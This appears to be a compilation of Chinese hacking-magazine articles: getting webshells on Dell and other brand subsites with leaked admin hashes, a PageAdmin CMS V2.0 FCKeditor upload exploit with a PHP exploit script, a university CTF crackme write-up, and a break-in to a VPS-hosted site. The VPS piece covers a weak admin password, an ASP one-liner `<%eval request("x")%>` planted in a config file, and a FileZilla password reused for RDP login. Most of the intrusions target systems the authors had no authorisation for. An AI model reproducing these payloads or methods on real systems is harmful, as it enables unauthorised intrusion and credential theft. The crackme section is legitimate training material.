

图6

接下来，就是见证奇迹的时刻！在浏览器访问我们的ASP木马，地址是“http://www.xxdell.cn/Databackup/help.asa”，成功出现了要求输入登录口令的提示，将之前设置的密码“x*****g”输入到“Password:”处，再点击“login”按钮，得到了这个Dell分站的WebShell（如图9）。好了吧，就别再进行添加用户和3389等提权操作了吧，小心被JC叔叔请去喝免费茶。



图9



图7

## 三、那些基本不设防的“大牌”们

还记得之前埋下的“伏笔”么？对了，就是“都有哪些？先不告诉！”这句，呵呵。Dell的XX分站是这个样子的，再试一下YYY分站（http://www.yyyydell.com）。方法相同，结果暴出了“del105717cc245f4e4038bcb”（账户是“del10571”），不过这个能稍微好点儿，因为MD5加密密码“7cc245f4e4038bcb”未能被免费跑出来。由此我又找了若干个名牌网站，发现都存在同样的漏洞，现通报结果如下：



图10

- 万利达（http://www.axxxp.com/）的：admin2392ee-aef667c137（不用分了吧？），付费查询的MD5记录；
- 亲爱的ZZ分站（http://www.szzzzzz3.com/）的：michael-zffe20657a03a8c8e7fef3893cbdaaffb，这个是32位的MD5密码，也是一条付费查询记录；
- 金伯利钻石的XX分站（http://www.jxxxxx1.net/）的：admin8cbd73ad37eceebe，付费记录；
- 安利的XX分站（http://www.sxxxxxxxxxg.cn/）的：admin08ac91096c21fdc0，这个MD5密码没查到。

当然，“大牌”们尚且如此，那些“小”站们更不用说了，像X星苑、XX速冻食品、义乌XX玩具、CG教学XX字幕及XX影视基地等等，都在相同的地方纷纷落马，令人唏嘘不已！

## 四、后记

本来想给Dell的XX分站管理员发封E-mail的，但忽然想起N多年前曾经也有过类似的举动，可惜管理员根本就把网站首页上挂的信箱当摆设，半年之后再造访竟仍然未作修补！于是直接联系在线客服的QQ，结果四个都不在线；好在一个多小时之后，其中的一个来联系我，于是将自己的发现告诉了她（如图10），呵呵。

## PageAdmin Cms V2.0 getshell 0day

2011年11月6日，黑小子在土司公布了“PageAdmin cms getshell 0day”，并给出了一个漏洞的利用EXP。经过我在虚拟机里测试，存在漏洞的是PageAdmin Cms的次最新版本PageAdmin Cms V2.0，最新版本pageadmin v2.1 20110927不存在这个漏洞了。利用漏洞可以直接获得shell，危害还是很大的。

## 一、漏洞简介

PageAdmin Cms是集成内容发布、文章、产品、图片、招聘、留言、自定义模型、采集等功能于一体的企业级网站管理系统。

漏洞公布者黑小子已经给出了漏洞分析，这里直接引用：这个程序有个fckeditor，悲剧就在这里了。不过程序它在upload.aspx里面倒是验证了权限。任意上传。

```php
<%@ Page language="c#" Trace="false" Inherits="FredCK.FCKeditorV2.Uploader" AutoEventWireup="false" StylesheetTheme="" %>

<%@ Page language="c#" Trace="false" Inherits="FredCK.FCKeditorV2.FileBrowserConnector" AutoEventWireup="false" StylesheetTheme="" %>
```

但是在connector.aspx这个里面就是一段……我不会.net所以完全不知道他这个代码是什么意思但是经过测试这个代码一点用处都没有！可以任意文件上传，../../任意跨目录！上传可以本地构造test.html。

我个人的理解就是PageAdmin Cms V2.0用到的FCKeditor存在任意文件上传漏洞，并且可以自定义上传文件的目录。

## 二、漏洞利用

PageAdmin Cms V2.0安装了起来。网站在虚拟机里的访问地址为 http://127.0.0.1/ ，首页如图1。



图1



图2



图3

下面来看漏洞利用方法。PageAdmin Cms V2.0中FCKeditor默认在管理目录master下，虚拟机中connector.aspx的URL为：

**http://127.0.0.1/master/fckeditor/editor/filemanager/connectors/aspx/connector.aspx**

- 1. 利用test.html上传获得shell

由于FCKeditor存在任意文件上传漏洞，所以可以通过test.html直接上传shell。将test.html中connector.aspx补全为完整URL后保存，用浏览器打开并选择“允许阻止的内容”，再通过“浏览”选择要上传的shell并上传。随后在上传目录中定位实际文件路径（含按年月生成的目录），最终访问对应aspx文件获取shell，如图4、图5。



图4



图5

- 2. 利用EXP获得shell

黑小子给出了一个用PHP写的漏洞利用EXP，可以直接获得shell。EXP的代码为：

```php
#!/usr/bin/php
<?php
error_reporting(0);
print_r("...");
// PageAdmin cms Fckeditor Upload Vul Exploit
// by admin@heixiazi.com
// cfking@90sec.org
?>

if(count($argv) < 2){
    print_r("\n"
      ." Usage:php ".$argv[0]." url Path\n"
      ." Example:\n"
      ." php ".$argv[0]." www.site.com path\n");
    exit;
}
$url=$argv[1];
$path=$argv[2];
$token=getshell($url,$path);
if($token==null){
    echo "[-] Exploit Failed\n";
}else{
    echo "[+]Exploit Success\n";
    echo "[+] Shell:http://$url/upload/$token\n";
}

function Getshell($url,$path){
    $host=$url;
    $port="80";
    // ...
    $data = "POST $path/... HTTP/1.1\r\n";
    $data .= "Host: $host\r\n";
    $data .= "User-Agent: Mozilla/5.0 ...\r\n";
    $data .= "Accept: text/html,application/...\r\n";
    $data .= "Accept-Language: zh-cn,zh;q=0.5\r\n";
    $data .= "Accept-Charset: gb2312,utf-8;q=0.7,*;q=0.7\r\n";
    $data .= "Keep-Alive: 300\r\n";
    $data .= "Connection: keep-alive\r\n";
    $data .= "Content-Type: multipart/form-data; boundary=...\r\n";
}

$data .= "Content-Length: ".strlen($content)."\r\n\r\n";
$data .= $content."\r\n";
$sock=fsockopen($host,$port);
if(!$sock){
    echo "[x] No response from $host\n";
    die;
}
fwrite($sock,$data);
while(!feof($sock)){
    $exp.=fgets($sock,1024);
}
preg_match('/(0-9]*(.*))/', $exp, $arr);
return $arr[2];
}
?>
```

把上面代码保存为文件 **pacmsexp.php**，放到了虚拟机系统中的C盘根目录下。由于EXP是用PHP写的，需要你安装PHP后才能使用。我的虚拟机的Windows 2003系统中已经安装了PHP v5.3。打开命令提示符，切换到C盘根目录下。输入 `php pacmsexp.php` 回车后就可以看到EXP的用法了（PHP的安装目录已经被我加进了环境变量path中，所以不用输入php.exe所在的路径），如图6。



EXP的利用格式为：

```bash
php pacmsexp.php www.site.com path
```

其中 `www.site.com` 就是存在漏洞的网站的域名或IP地址，`path` 是PageAdmin Cms V2.0所在的目录。输入 `php pacmsexp.php 127.0.0.1`，回车，会看到一个光标在闪，过一会显示如图7，提示“Exploit Success”，并且已经给出了shell的地址 `http://127.0.0.1/upload/...aspx`，shell是aspx一句话木马，密码为90sec.org，用菜刀连接该地址也获得了shell，如图8。

PageAdmin Cms V2.0 getshell 0day以及利用漏洞两种拿shell的方法介绍完了。

# 一个人的战争

by: PageAdmin V2.0。曾能找到可能存在这个漏洞的网站。最近正在学习 PHP，黑小子的 EXP 让我学到了不少东西，在此表示感谢。盼望以后自己也能用 PHP 写出漏洞利用程序。为了方便有的朋友本地测试这个漏洞，我把存在漏洞的 PageAdmin CMS V2.0 的源代码 `PageAdmin企业网站管理系统v2.0.rar` 和漏洞利用程序 `test.html`、`pacmsexp.php` 一起打包给大家了。

# 破解困惑

## ——小记西电攻防大赛破解体验

冷夜[B.H.S.T]

好久没有写文章了，笔者高考挺幸运，考了不错的成绩，来到曾经一直向往的西安电子科技大学。恰逢西电 80 周年校庆，对西电也有更深的理解。不过，大学还是大学，总是会有挂科……总是会有翘课。呵呵，但是要让我分享一些经验，我也只能说，最多的还是靠自己。看今天的主题吧，我们西电信息安全协会举办了一个网络攻防大赛，比赛还是比较成功的。由于小生只是对破解有所研究，所以其他方面不说也罢，嘿嘿。比赛一共有两道破解试题，从属于“软件安全”分类之下。下面就介绍一下个人的破解体会。

## 第一道题是这样描述的：

这是一道破解题，运行程序后，输入序列号即可。如果成功，注册成功按钮将会由不可用变为可用。要求：

- 1. 使这个程序能注册成功，提交注册机的可执行文件。
- 2. 简单阐述该程序的防范手段。

第一眼看到试题，会感觉思路很明了，题目中说道了，按钮由不可用变为可用即可，很自然地想到编程中常引用的一个 API（应用程序编程接口）就是 EnableWindow。这样就开始测试一下喽。

首先用 PEiD 查一下软件是否有加壳，出题者并没有在这方面为难。软件是 Microsoft Visual C++ 6.0 编写的。运行一下，输入 123，并没有反应……（众叉子：这是当然的了……），如图1。

这样就把软件载入到 OllyIce 中分析一下。这里既然是调用了 API 函数，我们就在反汇编窗口右键→查找当前模块中的名称（标签），在窗口中输入 E，很快就发现了 EnableWindow 这个函数。然后就是右键选择“在每个参考上设置断点”。本想运行一下找到关键跳从而用 NOP 覆盖掉，结果按下 F2，却显示已终止。如图2。这样就可以肯定软件必定是加了校验了，这样也就理解了题目所说的“防范手段”了。

此时又按 Ctrl+N 查看了一遍调用的 API 函数，找到图3的 API 函数 ExitProcess。熟悉编程的童鞋会更了解这些 API 的应用吧，另外破解中还常常遇到结束线程的 API，比如 ExitThread 和 TerminateThread。没有编程基础的朋友可以积累一下。

在 ExitProcess 这个参考上右键选择查找输入函数参考，如图4，打开的对话框就有这个 CrackMe 软件调用此 API 的地址，双击地址到达反汇编窗口，代码如图5。

其中，004010B8 地址处的汇编代码为：

```asm
mov ebp, dword ptr [<&KERNEL32.ExitProc>] ; // 此处调用的就是 kernel32.ExitProcess
```

这样后面就必定有调用的地方，单步跟踪。在图5中下面代码就出现了一个跳转，位置是 004010F0。跟踪到这个跳转的位置先下个断点，然后继续跟踪会发现走几步进程就会退出了。

这样我们通过单步调试修改 004010F0，右键 NOP 掉，就可以让程序的自动退出无效了。那么，程序为什么会自动退出呢？必定是加了校验的，我们使用 OD 调试会发现，只要不对程序下断点或是修改代码等行为，就不会中断，后来发现程序是加的 CRC32 校验的。

将修改保存后，再将修改后的文件载入到 OD 中，后面过程就简单了。同样地找到 EnableWindow 这个函数，找到参考位置下断点。（通过另一个 API GetWindowTextA 也是可以找到关键部分的），找到了这个地址：

把 0040128C 处的跳转修改为 NOP 代码，如图6，即可简单地爆破这个 CrackMe 了。总结一下，要破解这个 CrackMe 只需要修改两处代码，004010F0 和 0040128C 代码都改为 90（NOP 代码）就可以了。做注册机也有几种方法了。这里不用自己编写，直接用现成的注册机编写器编写吧。当然，为了锻炼大家可以尝试自行编写注册机。为了直观，我制作内存补丁作为演示，如果要直接破解可以用文件补丁的方式。比较源文件和修改后的文件就可以了。制作内存补丁的方式截图如图7。

修改方式如下：

| 修改地址 | 长度 | 原始指令 | 修改指令 |
|---|---:|---|---|
| 004010F0 | 2 | 7509 | 9090 |
| 0040128C | 2 | 750E | 9090 |

在关键位置下 INT3 断点。按下 F2 运行后输入假码 123，断在这里，按 F8 单步走几次，同时注意堆栈和寄存器中的数据，会发现 123 和另一个字符串经常出现“MTIz”，如图11。我们完全可以猜想 123 经过加密后就变为了 MTIz。但是这是什么加密方法呢？

这样做成后就 OK 了，运行注册机补丁就可以了。如图8是破解成功的图片：至此，第一道题就算解决了。

## 第二道题是这样描述的：

- 1. 运行附件中的 TraceMe.exe
- 2. 要求：破解出密码弹出成功对话框。提交密码。

关于这个 CrackMe，有一点不能称作技巧的技巧吧，呵呵。首先运行一下程序，输入假码 123，运行发现提示“fail”，如图9。查一下 CM 是否被加壳，结果是 Microsoft Visual C++ 6.0，并没有加壳。将软件载入到 OD 中，用很基础的方法查看一下字符串参考。发现了一点信息，如图10。

这里有错误的提示，也有一串字符串是 `S0VQ10h0a020V0p0d0A0=`。这个很自然地会想到注册码，但是试验了一下，并没有成功。然后我就在这里下普通的断点……

这时我关掉 OD，又将软件载入到 PEiD 中。利用 PEiD 的插件 KryptoANALyzer 分析一下算法，发现软件的代码中用到了 BASE64 加密，如图12。（笔者：由于换了 Win7 系统，所以过去的 PEiD 不能使用，就用这个修改版了）。并且分析到的地址部分正是注册码的位置。

有点小技巧吧，的确可以省去我们不少分析的时间。于是测试一下，在 Base64 加解密工具里加密一下 123，得到的正是 MTIz。这样思路就明了多了，`S0W010h0a020V0p0d0A0=0` 应该是与 BASE64 加密有关系的。

```asm
00401314  | . 75 08      jnz short
0040131E  |              不相等就跳出循环
00401316  | . 46         inc esi
00401317  | . 83C7 02    add edi,2
...
0040131A  | . 3BF1       cmp esi,ecx
0040131C  | . 7C E3      jl short
```

那就拿 BASE64 解密一下这些字符串，却得到一串乱码。这又是怎么回事呢？继续将软件载入到 OD 中分析代码。

```asm
00401301  | . 8BC6       mov eax,esi
00401303  | . BD 0B000000 mov ebp,0B
00401308  | . 99          cdq
00401309  | . F7FD        idiv ebp
0040130B  | . 0FBE041A    movsx eax,byte ptr [edx+ebx]
0040130F  | . 0FBE17      movsx edx,byte ptr [edi]
00401312  | . 2BC2        sub eax,edx
```

其中 00401317 处的代码是加了 2，也就是说 edi 对应的地址加 2，这样就跳过了第二个字符，以此类推，偶数位的字符都会被忽略掉。因此，先前的字符串 `S0W010h0a020V0p0d0A0=0` 的有效部分应该是 `SW1ha2VpdA==`，用 Base64 解密一下，得到字符串“Imakeit”，测试一下，注册成功了，如图13。

其实这款 CM 如果把字符串 `S0W010h0a020V0p0d0A0=0` 隐藏一下，难度就会更大一些。另外，这串字符串中无效位都用了 0，很容易让人发现秘密。总结一下，比赛的题目并不是很困难，还是挺典型的。

（文章中涉及的相关程序本期光盘已收录）

## 意外轻取某VPS主机

有一天去站长中国下载个网站程序，在网页上看到有关某 VPS 提供商的广告，没事就点开它的网站看了下。在 VPS 提供商的网站上有个“VPS客户案例”的栏目，里面显示了不少利用这个 VPS 提供商的 VPS 的网站。

从“VPS客户案例”中选择了一个网站 `www.mexxx.com`。我最近喜欢对一个网站先扫描目录，后发现后台登录文件，打开后发现是一个名为“万博企业网站管理系统”的整站系统。试了下弱口令，居然进去了。

后台首页如图1。进了后台就想找拿 shell 的方法。

在后台的“系统管理”菜单下有个功能叫“常量设置”，点开后发现打开的是网站配置文件的编辑页面（图2）。

可以编辑配置文件！直接在文件代码的最后加上 ASP 一句话木马的代码 `<%eval request("x")%>`，点“保存”按钮后提示“站点常量设置修改成功！”，ASP 一句话木马好像已经写进了网站配置文件，但我现在还不知道网站配置文件的名字和所在目录。再点开“常量设置”，在网站配置文件的源代码的注释中找到了要找的信息“文件位置：/Include/Const.asp”，原来网站配置文件是 Include 目录下的文件 Const.asp，用 lake2 的 eval 最小马发送端连接 `http://www.mexxx.com/Include/Const.asp`，获得了 shell，如图3。

```xml
<FileZillaServer>
  <Settings>
    <Item name="Last Server Address" type="string">127.0.0.1</Item>
    <Item name="Last Server Port" type="numeric">14147</Item>
    <Item name="Last Server Password" type="string">1985xxx</Item>
    <Item name="Always use last server" type="numeric">1</Item>
    <Item name="User Sorting" type="numeric">0</Item>
    <Item name="Start Minimized" type="numeric">0</Item>
  </Settings>
</FileZillaServer>
```

其中 1985xxx 就是 FileZilla Server 的管理密码。看这个密码不像是弱口令，会不会还是管理员的别的什么密码呢？用远程桌面连接程序连接了下网站服务器的 IP，发现可以连接。用默认的用户 Administrator 和刚才找到的 FileZilla Server 的管理密码 1985xxx 尝试登录，又成功了，如图5：看来管理员的安全意识不是怎么高，FileZilla Server 的管理密码和服务器管理员用户的密码竟然是同一个，而且 FileZilla Server 的管理密码还能比较容易地读取到。

